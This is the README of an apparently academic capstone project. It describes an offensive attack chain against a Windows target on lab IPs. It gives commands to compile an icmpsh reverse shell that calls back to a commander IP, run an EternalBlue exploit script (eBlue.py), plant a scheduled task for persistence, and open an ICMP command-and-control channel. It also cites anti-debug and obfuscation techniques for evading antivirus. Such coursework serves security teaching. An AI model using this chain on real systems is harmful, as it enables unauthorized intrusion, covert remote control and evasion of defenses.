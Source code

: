 # CS564 - Capstone Project

---

## Requirement

-   Linux host (we use Kali)
-   Python 2.7
    -   [Installer (python.org)](https://www.python.org/downloads/release/python-2718/)
    -   [Pip installer](https://bootstrap.pypa.io/pip/2.7/get-pip.py)
    -   `impacket`: Run `python2 -m pip install impacket`
-   Python 3
-   Visual C++ 2008 compiler.
    -   [Installer (archive.org)](https://web.archive.org/web/20210106040224/https://download.microsoft.com/download/7/9/6/796EF2E4-801B-4FC4-AB28-B59FBF6D907B/VCForPython27.msi)

## Generating payload

We prepare a C2 package that communicates through ICMP protocol.

### Remote shell

To compile remote shell,
open Visual C++ 2008 32/64-bit Command Prompt, and type the
following. Remember to change `MY_IP` to the IP of commander.

```
cl.exe icmpsh-s.c /D"MY_IP=\"169.254.16.130\""
```

### Python code

Pack it into EXE

## Infiltrate

Inside folder, `eBlue.py` is the exploit. Run

```
python2 eBlue.py 169.254.16.129
```

After running, the C2 package should now be stored inside the target system.
Additionally, a scheduled task is made to execute C2 in the future.

## Exfil

Due to the protocol limitation, we need to connect using Linux system and
run the following command to disable automatic ICMP reply.


When the schedule task run, in order to connect,
execute on our host:

```
python3 icmpsh_m3.py 169.254.16.130 169.254.16.129
```


## Credits

-   `icmpsh-s.patch.c` and `icmpsh-m3.py` is based on [bdamele:icmpsh](https://github.com/bdamele/icmpsh)
-   `eBlue.py` from [Exploit-DB](https://www.exploit-db.com/exploits/42315)
-   Anti-debug techniques from [Anti-Debug Tricks](https://anti-debug.checkpoint.com/)
-   C obfuscation from [scrt:avcleaner](https://github.com/scrt/avcleaner)